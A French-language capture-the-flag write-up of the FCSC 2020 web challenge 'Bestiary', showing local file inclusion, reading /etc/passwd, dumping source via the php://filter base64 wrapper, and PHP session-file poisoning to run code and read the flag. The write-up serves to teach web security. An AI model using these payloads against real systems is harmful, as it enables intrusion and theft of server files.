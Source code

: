 # Bestiary

Auteur: Ewaël

**Bestiary** est un des challenges web à 100 points du FCSC 2020 et dont voici l'enoncé:

![Bestiary](bestiary.png)

Le lien menant sur une page avec un bestiaire qui regroupait des informations sur la créature choisie.

![Index.php](index.png)

La première chose que je remarque est la manière dont la créature choisie est envoyée dans la requête: par le paramètre `monster` dans l'URL. Je teste alors directement `monster=flag` et je vois que rien ne s'affiche là où `monster=test` renvoie l'erreur suivante:

![monster=test](test.png)

C'est ainsi que je suis parti sur ma première piste: une simple LFI. En effet, `
Warning: include(/usr/local/lib/php/test): failed to open stream: No such file or directory in /var/www/html/index.php on line 33` me fait clairement penser que le serveur se contente d'afficher la page demandée, et j'imagine que si le mot *flag* est filtré, on peut quand même trouver d'autres informations intéressantes. Je commence par vérifier ma théorie en allant chercher des fichiers généralement croustillants, et effectivement, ça fonctionne:

![/etc/passwd](passwd.png)

Le problème, c'est que je n'en tire pas grand chose. Pareil du côté des hosts, fausse piste. En regardant les possibilités qu'offre la LFI, je tombe sur la bonne piste. En effet, la faille à exploiter est une application spécifique de LFI: l'utilisation des filtres php. Je comprends qu'il est possible de lire le code php de la page `index.php` grâce à cette page:

[http://pims.tuxfamily.org/blog/2010/05/nouvelle-technique-de-lfi-les-filtres-php](http://pims.tuxfamily.org/blog/2010/05/nouvelle-technique-de-lfi-les-filtres-php/)

J'essaie donc de passer par le base 64 en envoyant `/index.php?monster=php://filter/read=convert.base64-encode/resource=index.php` et ça fonctionne, on décode la chaine renvoyée et on récupère notre joli *index.php*:

```php
<?php
	session_save_path("./sessions/");
	session_start();
	include_once('flag.php');
?>
<html>
<head>
	<title>Bestiary</title>
</head>
<body style="background-color:#3CB371;">
<center><h1>Bestiary</h1></center>
<script>
function show()
{
	var monster = document.getElementById("monster").value;
	document.location.href = "index.php?monster="+monster;
}
</script>

<p>
<?php
	$monster = NULL;

	if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
		$monster = $_SESSION['monster'];
	if(isset($_GET['monster']) && !empty($_GET['monster']))
	{
		$monster = $_GET['monster'];
		$_SESSION['monster'] = $monster;
	}

	if($monster !== NULL && strpos($monster, "flag") === False)
		include($monster);
	else
		echo "Select a monster to read his description.";
?>
</p>

<select id="monster">
	<option value="beholder">Beholder</option>
	<option value="displacer_beast">Displacer Beast</option>
	<option value="mimic">Mimic</option>
	<option value="rust_monster">Rust Monster</option>
	<option value="gelatinous_cube">Gelatinous Cube</option>
	<option value="owlbear">Owlbear</option>
	<option value="lich">Lich</option>
	<option value="the_drow">The Drow</option>
	<option value="mind_flayer">Mind Flayer</option>
	<option value="tarrasque">Tarrasque</option>
</select> <input type="button" value="show description" onclick="show()">
<div style="font-size:70%">Source : https://io9.gizmodo.com/the-10-most-memorable-dungeons-dragons-monsters-1326074030</div><br />
</body>
</html>
```

Je réalise tout de suite qu'effectivement le mot "flag" était bien filtré, j'ai d'ailleurs d'abord foncé tête baissée sur ce problème avant de réaliser que la solution n'était pas là. En effet ce qui m'intéresse se situe dans ces lignes:

```php
<?php
	session_save_path("./sessions/");
	session_start();
	include_once('flag.php');
?>
```

Après recherches sur ce `session_save_path` je comprends qu'on peut accéder à un fichier potentiellement intéressant dans `sessions/sess_b112ccb116944fa18da40b335829e4ae`, "b112ccb116944fa18da40b335829e4ae" étant mon cookie *PHPSESSID*. On trouve sur cette page simplement la chaine contenant notre dernière requête, dans mon cas: `monster|s:4:"test";`.

Ainsi j'ouvre un autre onglet pour envoyer la requête avec le payload, et je garde cet onglet pour rafraîchir la page une fois le payload envoyé, afin de voir le résultat. J'envoie donc d'abord `/index.php?monster=<?php%20echo%20file_get_contents("flag.php");%20?>` afin d'afficher le flag, puis je retourne sur l'onget `/index.php?monster=sessions/...` puis dans le code source, et surprise, voilà le flag:

![flag](flag.png)

`FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}`
